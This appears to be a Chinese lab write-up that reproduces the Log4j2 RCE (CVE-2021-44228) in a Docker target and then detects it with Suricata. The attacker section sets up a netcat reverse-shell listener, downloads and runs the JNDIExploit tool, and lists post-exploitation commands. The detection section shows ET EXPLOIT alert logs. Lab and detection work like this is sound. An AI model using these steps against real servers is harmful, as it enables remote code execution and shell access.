



# 漏洞利用的持续检测和威胁识别

### 一、环境配置及监听准备

**attacker**

在攻击者主机上预先准备好一个反弹监听地址，提前运行程序等待反弹连接

```bash
nc -l -p 7777
```


**victim**

victim需确认漏洞靶标已启动

### 二、漏洞利用效果持续监测与评估

- 操作窗口：victim

   进入靶标容器，查看`log4j2`的靶标状态

   ```bash
   # 查看服务器中容器状态
   $ docker ps
   ```

   

     ```bash
   # 进入靶标容器终端，并且保留为容器终端的输入形式
   $ docker exec -it CONTAINER_ID bash
     ```

     

     ```bash
   # 调试出反弹shell，测试有效负载
   cat /etc/shells
     ```

   

- 操作窗口：attacker

  攻击端的攻击工具准备

  ```bash
  $ wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip  
  # 获取压缩包
  $ shasum -a 256 JNDIExploit-1.2-SNAPSHOT.jar
  # 计算校验和c96ce1de7f739575d86f2e558aeb97dc691077b31a1c510a3dabf096c827dfa8  JNDIExploit-1.2-SNAPSHOT.jar
  $ java -jar JNDIExploit-1.2-SNAPSHOT.jar -u 
  # 获取可用 post-exploit payload 清单
  $ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.73.129 
  # 192.168.73.129为【攻击者】主机 IP
  ```

  执行攻击负载投放代码

  
  
  attacker同样进入容器终端
  
  

  此时attacker已经获取成功，为容器终端模式
  
    ```bash
  /demo# 
  id
  ps
  ps aux
  ifconfig
  env
    ```
  
  
  
  得到flag
  
    ```bash
  ls /tmp
  # 退出
  exit
    ```
  
    


###   三、漏洞利用流量检测实战

- 启动靶机镜像

  ```bash
  # -d显示运行，--name给docker取名字，-p是指定端口，本机端口：容器端口
  $ docker run -d --name log4shell -p 5555:8080 vulfocus/log4j2-rce-2021-12-09:latest
  ```

  

- 启动 suricata 检测容器

  ```bash
  # eth1对应靶机所在虚拟机的 host-only 网卡 IP
  $ docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i 192.168.73.128" jasonish/suricata:6.0.4
  
  # 更新suricata 规则，更新完成测试完规则之后会自动重启服务
  $ docker exec -it suricata suricata-update -f
  
  # 重启 suricata 容器以使规则生效，一般会自动重启
  # docker restart suricata
  ```

  

- 监视 suricata 日志

  ```bash
  # 监视 suricata 日志
  $ docker exec -it suricata tail -f /var/log/suricata/fast.log
  ```

  

- 复现攻击过程，查看日志

  ```
  # 7/26/2023-22:41:19.235176 [] [1:2034647:1] ET EXPLOIT Apache log4j RCE Attempt (http ldap) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034649:1] ET EXPLOIT Apache log4j RCE Attempt (tcp ldap) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034700:1] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M2 (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034757:2] ET EXPLOIT Apache log4j RCE Attempt (http ldap) (Outbound) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034759:1] ET EXPLOIT Apache log4j RCE Attempt (tcp ldap) (Outbound) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034800:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M2 (Outbound) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034661:1] ET HUNTING Possible Apache log4j RCE Attempt - Any Protocol (CVE-2021-44228) [] [Classification: Misc activity] [Priority: 3] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034783:2] ET HUNTING Possible Apache log4j RCE Attempt - Any Protocol (Outbound) (CVE-2021-44228) [] [Classification: Misc activity] [Priority: 3] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555
  ```


### 四、参考资料

- [网络安全综合实验](https://www.bilibili.com/video/BV1p3411x7da/?p=19&vd_source=07a222cfe0359d066b4d7d9446e8c94a)
- [DockerContainer](http://www.qince.net/dockerwo36.html)
- [CVE-2021-44228](https://blog.csdn.net/weixin_45260839/article/details/124650703?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-0-124650703-blog-125654828.235)
-  [Log4j](https://blog.csdn.net/Bossfrank/article/details/130148819?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-4-130148819-blog-121944757.235)
- [Log4j2远程代码执行漏洞(cve-2021-44228)复现笔记](https://www.freebuf.com/articles/web/358670.html)
- [DockerExec](https://blog.csdn.net/qq_40081976/article/details/84590119)